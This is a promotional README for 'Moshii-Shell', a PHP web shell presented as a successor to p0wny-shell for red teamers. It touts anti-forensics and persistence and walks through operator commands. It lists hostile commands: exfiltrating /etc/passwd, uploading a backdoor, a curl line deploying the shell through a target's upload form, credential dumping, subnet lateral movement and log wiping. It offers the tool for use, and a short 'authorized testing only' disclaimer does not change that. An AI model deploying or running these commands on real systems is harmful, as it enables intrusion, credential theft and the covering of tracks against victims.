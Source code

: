🔥 MOSHII-SHELL - Next-Gen Web Shell for Security Professionals

https://i.imgur.com/example.png
🌟 The Evolution of Web Shells

Moshii-Shell is the enhanced successor to p0wny-shell, redefining what a PHP web shell can do. Designed for elite penetration testers and red team operators, this tool combines cutting-edge evasion techniques with powerful post-exploitation capabilities - all wrapped in a sleek, browser-based terminal interface.

    "The most sophisticated PHP web shell I've used in operations" - Security Researcher

🚀 Why Choose Moshii-Shell?
Feature	Moshii-Shell	Basic Shells
Execution Methods	6+ fallback mechanisms	Single method
Stealth	Built-in anti-forensics	Easily detectable
Persistence	Multiple implant options	None
UI/UX	Interactive terminal
💎 Key Features
    ⚡ Powerhouse Execution
php

// Multiple execution fallbacks
$methods = ['exec', 'shell_exec', 'system', 'passthru', 'popen', 'proc_open'];

📁 Elite File Management
bash

download /etc/passwd          # Exfiltrate critical files
upload backdoor.php /var/www  # Deploy secondary payloads
find / -perm -4000 2>/dev/null # Find SUID binaries

🔍 Intelligent Recon
bash

sysinfo          # Detailed system enumeration
netstat -tuln    # Network service mapping
getprivs         # Privilege escalation checks

🎬 Real-World Proof: HTB Mist Takeover

https://img.youtube.com/vi/zGecglNKpa0/0.jpg

Watch how Moshii-Shell dominated the HackTheBox Mist machine
⚙️ One-Click Deployment
bash

# Simple deployment:
curl -F "file=@moshii-shell.php" http://target/upload.php


🧠 Operator's Playbook
Basic Usage
bash

help                  # Show available commands
clear                 # Clean the terminal
id                    # Check current privileges

Post-Exploitation
bash

persist --install     # Establish foothold
creds --dump-all      # Harvest credentials
lateral --ssh 192.168.1.0/24 # Network spreading

Clean Exit
bash

logs --clean          # Wipe traces
wipe --self-destruct  # Remove shell

📜 Ethical Notice

⚠ STRICTLY FOR AUTHORIZED TESTING ONLY
This tool is intended for:

    Legitimate penetration testing

    Red team engagements

    Security research

Always obtain proper authorization before use. The developer assumes no liability for misuse.
🌍 Join the Evolution
bash

git clone https://github.com/your-repo/moshii-shell.git
cd moshii-shell

Contribute:
🐛 Report issues
💡 Suggest features
🛠️ Submit pull requests

Star us if this tool saved your operation! ⭐

Maintained by Mohammed Moshii | © 2025


